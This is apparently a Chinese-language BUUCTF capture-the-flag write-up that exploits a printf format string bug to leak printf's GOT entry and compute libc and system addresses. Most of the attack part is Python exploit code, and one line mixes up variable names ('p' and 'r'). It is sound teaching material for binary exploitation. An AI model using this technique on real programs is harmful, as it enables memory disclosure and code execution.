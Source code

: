 ### Printf 指定地址泄露 libc

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67dcf10e88c538a9b5c28a9a.png)

在第 25 行明显存在一个格式化字符串漏洞

![](https://pic1.imgdb.cn/item/67dcf4fd88c538a9b5c28e14.png)

首先调试程序找找偏移

可以看到偏移是 8，但是没有补全

![](https://pic1.imgdb.cn/item/67dcfcfa88c538a9b5c29920.png)

前面还要加个字符补全才是

![](https://pic1.imgdb.cn/item/67dd03e688c538a9b5c2a9be.png)

由此可以泄露 libc 版本

```python
# 'A'  是用来补位的，这样后面的 printf 函数的 got 表地址就会在栈上相对距离为 8 的位置
# %8$s  利用格式化字符串漏洞的 %8$s 去泄露出栈上相对距离为 8 的地址上的值
# 'B'  相当于标记位，下面在接收数据的时候，接收到字符 'B',后面跟着的就是我们泄露出来的函数地址
payload = b'A' + p32(printf_got)+ b'B' + b'%8$s'
```

完整 payload 如下（后续 getshell 部分参考 2.4）

```python
payload = b'A' + p32(printf_got)+ b'B' + b'%8$s'

p.sendafter("Please tell me:", payload)

p.recvuntil('B')
printf_addr = u32(r.recv(4))

libc = LibcSearcher('printf', printf_addr)
libc_base = printf_addr - libc.dump('printf') 
system = libc_base + libc.dump('system')
```

